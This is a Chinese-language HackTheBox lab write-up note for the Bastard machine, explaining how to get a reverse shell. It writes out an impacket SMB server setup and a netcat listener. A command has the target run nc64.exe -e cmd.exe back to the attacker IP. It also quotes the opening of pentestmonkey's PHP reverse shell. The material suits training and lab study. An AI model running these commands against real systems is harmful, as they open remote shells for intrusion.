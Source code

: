  
## Reverse Shell

> **[0x01 Bastard (Drupal EXP,内核提权 , UDF PE)](../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x01%20Bastard%20(Drupal%20EXP,内核提权%20,%20UDF%20PE).md)**

主要目的就是在 kali 中下载一个可供靶机执行的 nc.exe , 通过 Webshell 构造语句让靶机访问本地运行的 samba 服务里的 nc.exe 然后绑定 cmd 链接到 Kali，完成拿 Shell 的整个过程

##### 靶机是 64位就下 nc64.exe
```bash
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
```

##### 寻找可以让 python 运行的 smbserver 文件
```bash
locate sambashare
/usr/share/doc/python3-impacket/examples/smbserver.py
```

##### 在 Kali 建立本地 smbserver
```bash
└─$ sudo python /usr/share/doc/python3-impacket/examples/smbserver.py share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

##### 构造一条语句让靶机访问 Kali 上的 nc64.exe ，绑定靶机上的 cmd.exe ，然后再链接到 Kali 上的监听
- 建立监听
```bash
└─$ nc -lvvp 2233                    
listening on [any] 2233 ...
```

- 构造语句 ( 和  nc -e /bin/bash IP PORT 一样 )
```shell
\\10.10.16.8\share\nc64.exe -e cmd.exe 10.10.16.8 2233
```

然后执行，就拿到了靶机的 Shell

**shell.php**
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.10.16.8';  // You have changed this
  $port = 2233;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = '//10.10.16.8/share/nc64.exe -e cmd.exe 10.10.16.8 443';
  $daemon = 0;
  $debug = 0;

[ 下面的就不截取了，都是同样的，用的 Pentestmonkey's reverse shell ]
```
